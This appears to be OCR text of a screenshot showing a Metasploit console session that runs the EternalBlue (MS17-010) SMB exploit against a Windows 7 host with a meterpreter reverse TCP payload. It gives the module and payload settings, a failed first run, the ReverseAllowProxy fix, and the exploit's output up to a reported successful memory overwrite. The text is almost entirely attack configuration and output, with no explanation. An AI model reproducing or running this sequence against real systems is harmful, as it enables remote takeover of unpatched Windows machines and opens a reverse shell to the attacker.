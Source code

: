 Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         192.168.23.12    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.233.128  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[-] 192.168.23.12:445 - Exploit failed: One or more options failed to validate: ReverseAllowProxy.
[*] Exploit completed, but no session was created.

-----------

msf6 exploit(windows/smb/ms17_010_eternalblue) > set ReverseAllowProxy True
ReverseAllowProxy => True
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 192.168.233.128:4444 
[*] 192.168.23.12:445 - Executing automatic check (disable AutoCheck to override)
[*] 192.168.23.12:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.23.12:445     - Host is likely VULNERABLE to MS17-010! - Windows 7 Enterprise 7600 x64 (64-bit)
[*] 192.168.23.12:445     - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.23.12:445 - The target is vulnerable.
[*] 192.168.23.12:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.23.12:445     - Host is likely VULNERABLE to MS17-010! - Windows 7 Enterprise 7600 x64 (64-bit)
[*] 192.168.23.12:445     - Scanned 1 of 1 hosts (100% complete)
[*] 192.168.23.12:445 - Connecting to target for exploitation.
[+] 192.168.23.12:445 - Connection established for exploitation.
[+] 192.168.23.12:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.23.12:445 - CORE raw buffer dump (25 bytes)
[*] 192.168.23.12:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 45 6e 74 65 72 70  Windows 7 Enterp
[*] 192.168.23.12:445 - 0x00000010  72 69 73 65 20 37 36 30 30                       rise 7600       
[+] 192.168.23.12:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.23.12:445 - Trying exploit with 12 Groom Allocations.
[*] 192.168.23.12:445 - Sending all but last fragment of exploit packet
[*] 192.168.23.12:445 - Starting non-paged pool grooming
[+] 192.168.23.12:445 - Sending SMBv2 buffers
[+] 192.168.23.12:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.23.12:445 - Sending final SMBv2 buffers.
[*] 192.168.23.12:445 - Sending last fragment of exploit packet!
[*] 192.168.23.12:445 - Receiving response from exploit packet
[+] 192.168.23.12:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!